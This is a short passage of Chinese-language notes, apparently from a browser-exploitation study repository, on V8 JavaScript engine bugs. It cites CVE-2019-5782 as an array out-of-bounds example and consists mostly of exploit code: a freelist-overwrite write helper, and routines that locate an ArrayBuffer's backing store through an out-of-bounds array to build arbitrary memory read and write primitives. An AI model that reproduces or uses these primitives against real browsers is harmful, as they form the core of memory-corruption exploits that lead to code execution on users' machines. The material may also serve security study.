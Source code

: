 ```
function write(addr, val, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var rw = new Uint32Array(2);
  rw.buffer;
  u64_to_arr(val, rw);
  junk.push(rw);
}
```


### 2、数组越界

eg. CVE-2019-5782

##### 补充内容

![](./img/41.png)

length位于bk上方：

##### arbitrary read/write：

```
var buf = new ArrayBuffer(0xbeef);
var offset2;
var dtView = new DataView(buf);

//search the buf.size
for(let i=0; i<0xffff; i++){
    if(dt.f2i(a2[i]) == 0xbeef){
        offset2 = i+1; //a2[offset2] -> buf.backing_store
        break;
    }
}

function write64(addr, value){
    a2[offset2] = dt.i2f(addr);
    dtView.setFloat64(0, dt.i2f(value), true);
}

function read64(addr, str=false){
    a2[offset2] = dt.i2f(addr);
    let tmp = ['', ''];
    let tmp2 = ['', ''];
    let result = ''
    tmp[1] = hex(dtView.getUint32(0)).slice(10,);
    tmp[0] = hex(dtView.getUint32(4)).slice(10,);
    for(let i=3; i>=0; i--){
        tmp2[0] += tmp[0].slice(i*2, i*2+2);
        tmp2[1] += tmp[1].slice(i*2, i*2+2);
    }
    result = tmp2[0]+tmp2[1]
    if(str==true){return '0x'+result}
    else {return parseInt(result, 16)};
}
```